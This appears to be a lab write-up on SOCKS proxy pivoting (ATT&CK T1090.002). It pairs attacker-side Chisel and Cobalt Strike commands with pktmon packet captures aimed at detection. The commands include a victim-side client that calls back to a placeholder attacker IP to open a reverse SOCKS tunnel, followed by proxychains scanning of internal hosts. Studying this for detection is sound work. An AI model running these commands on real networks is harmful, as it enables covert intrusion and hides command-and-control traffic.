





# T1090.002 SOCKS Proxy Pivoting

## Description

Adversaries might using proxy tools to establish a SOCKS proxy connection between the client (victim) and server (attacker) machine to redirect attacker network into target's internal network.

This can be used to masquerade their actual c2 server from defender perspective.

Various tools can perform this activity such as Chisel, Cobalt Strike beacon etc.

## Experiment

### Chisel

Victim's Internal machine IP address: 172.16.168.11\
Victim's machine IP address: 192.168.168.121\
Attacker's machine IP address: 192.168.45.229

#### In Attacker Server

```
Setup Proxy Server in Attacker
> chisel server --port 8082 --reverse
```

Once command above executed, it can see that the machine start listening to port `8082`. 



#### In Victim Server

```
Setup Proxy Client in Victim
> chisel.exe client <ATTACKER_MACHINE_IP>:8082 R:socks
```



#### Network Packet from Victim Machine

```
From attacker machine
> proxychains nmap 172.16.168.11
```



It can bee seen that before the internal connection start, the victim machine will send some network packet to the port `8082` which is the SOCKS proxy establishment from attacker machine. Probably that might be a clue to identify the proxy connection.

### Cobalt Strike Beacon

Victim's Internal machine IP address: Internal 172.16.228.11\
Victim's machine IP address: 192.168.228.121\
Attacker's machine IP address: 192.168.45.193

#### In Attacker Server

```
Attacker Teamserver
beacon > socks 10597
```

Once created a SOCKS proxy, the teamserver will starts listen to the port set from command above.



```
From attacker machine
> sudo nano /etc/proxychains.conf

Inside /etc/proxychains
...
[Proxy List]
...
# Add the line below
socks4 192.168.45.193 10597
...

> proxychains nmap 172.16.228.11
```

#### In Victim Server

Based on the pcap file caputre using `Pktmon`, there is no actual SOCKS proxy port found. However, before any initiation of between the internal machine, there is a connection made to the c2 via the c2 listening port (443). Most probably those packet might contains the SOCKS proxy port from c2.



## Side Notes

### Pktmon Command Used in Client Machine

```
Start moninitoring network 
> pktmon start --capture 

Stop monitoring network
> pktmon stop

Convert .etl to .pcap
> pktmon etl2pcap <PATH_TO_ETL> -o <PATH_TO_PCAP>
```
